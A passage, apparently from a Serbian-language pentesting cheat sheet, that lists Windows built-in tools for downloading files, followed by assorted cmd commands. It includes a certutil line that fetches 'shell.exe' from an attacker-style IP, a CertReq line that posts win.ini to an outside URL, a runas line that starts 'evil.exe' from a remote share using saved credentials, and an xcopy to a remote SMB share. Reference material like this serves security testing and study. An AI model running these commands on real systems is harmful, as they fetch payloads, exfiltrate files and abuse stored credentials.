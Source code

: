 ```
bitsadmin /create 1 bitsadmin /addfile 1 https://live.sysinternals.com/autoruns.exe c:\data\playfolder\autoruns.exe bitsadmin /RESUME 1 bitsadmin /complete 1
```

CertReq.exe je alatka koja se koristi za generisanje i upravljanje zahtevima za sertifikate u operativnom sistemu Windows. Ova komanda omogućava korisnicima da kreiraju CSR (Certificate Signing Request) datoteke koje se koriste za dobijanje digitalnih sertifikata od sertifikacionih tela. CSR datoteke sadrže informacije o subjektu za koga se zahteva sertifikat, kao i javni ključ koji će biti uključen u sertifikat. CertReq.exe takođe omogućava korisnicima da izdaju, povuku i obnove sertifikate. Ova alatka je korisna za pentestere koji žele da manipulišu sertifikatima u cilju testiranja sigurnosti sistema.

```
CertReq -Post -config https://example.org/ c:\windows\win.ini output.txt
```

Certutil.exe je alat koji se koristi za rad sa digitalnim certifikatima u operativnom sistemu Windows. Ovaj alat omogućava korisnicima da pregledaju, izdaju, povuku, izvoze i uvoze certifikate, kao i da obavljaju druge operacije vezane za upravljanje certifikatima. Certutil.exe se često koristi u procesu hardeninga sistema kako bi se osigurala sigurnost i integritet digitalnih certifikata.

```
certutil.exe -urlcache -split -f "http://10.10.14.13:8000/shell.exe" s.exe
```

**Pronađite još mnogo toga pretraživanjem `Download` na** [**https://lolbas-project.github.io**](https://lolbas-project.github.io/)

## Razno

```bash
cd #Get current dir
cd C:\path\to\dir #Change dir
dir #List current dir
dir /a:h C:\path\to\dir #List hidden files
dir /s /b #Recursive list without shit
time #Get current time
date #Get current date
shutdown /r /t 0 #Shutdown now
type <file> #Cat file

#Runas
runas /savecred /user:WORKGROUP\Administrator "\\10.XXX.XXX.XXX\SHARE\evil.exe" #Use saved credentials
runas /netonly /user:<DOMAIN>\<NAME> "cmd.exe" ::The password will be prompted

#Hide
attrib +h file #Set Hidden
attrib -h file #Quit Hidden

#Give full control over a file that you owns
icacls <FILE_PATH> /t /e /p <USERNAME>:F
icacls <FILE_PATH> /e /r <USERNAME> #Remove the permision

#Recursive copy to smb
xcopy /hievry C:\Users\security\.yawcam \\10.10.14.13\name\win

#exe2bat to transform exe file in bat file

#ADS
dir /r #Detect ADS
more file.txt:ads.txt #read ADS
powershell (Get-Content file.txt -Stream ads.txt)

# Get error messages from code
net helpmsg 32 #32 is the code in that case
```